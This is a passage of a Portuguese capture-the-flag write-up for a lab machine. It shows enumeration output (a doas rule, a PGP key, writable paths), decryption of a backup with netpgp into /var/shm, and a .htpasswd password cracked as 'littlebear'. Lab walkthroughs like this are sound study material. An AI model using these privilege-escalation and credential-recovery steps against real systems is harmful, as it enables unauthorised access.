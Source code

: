 ```plaintext
[+] Checking doas.conf
permit r.michaels as root
```

- Chave PGP para o app `netpgp`, que permite criptografar, descriptografar e assinar arquivos;
```plaintext
[+] Do I have PGP keys?
gpg Not Found
/usr/bin/netpgpkeys
1 key found
"pub" 2048/"RSA (Encrypt or Sign)" "op" 2020-09-14
Key fingerprint: "027a 3243 0691 2e46 0c29 9f46 3684 eb1e 5ded 454a "
uid "RSA 2048-bit key <r.michaels@localhost>" ""
```

- Caminhos user writable:

```plaintext
[+] Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
/home/r.michaels
/tmp
/var/mail
/var/mail/r.michaels
/var/shm
/var/spool/sockets
```

Uma vez que ja temos as informações acima, segui com a tentativa descriptografar o arquivo de backup utilizando a chave pgp encontrada. O ponto importante neste item é utilizar um caminho user writable, neste caso o `/var/shm`

```bash
luanne$ netpgp --decrypt --output=/var/shm/devel_backup-2020-09-16.tar.gz devel_backup-2020-09-16.tar.gz.enc
signature 2048/RSA (Encrypt or Sign) 3684eb1e5ded454a 2020-09-14
Key fingerprint: 027a 3243 0691 2e46 0c29 9f46 3684 eb1e 5ded 454a
uid RSA 2048-bit key <r.michaels@localhost>
```

Analisando o conteúdo do arquivo compactado, vimos que temos os arquivos utilizados para a API e index.html, mas o que chamou a atenção foi o conteúdo do **.htpasswd**, que embora tivesse o mesmo user(*webapi_user*), apresentava uma senha diferente da já encontrada.

```bash
tree -a devel-2020-09-16
devel-2020-09-16
├── webapi
│ └── weather.lua
└── www
├── .htpasswd
└── index.html
```

Utilizando o mesmo método feito para o arquivo anterior, foi encontrada a senha **littlebear**.
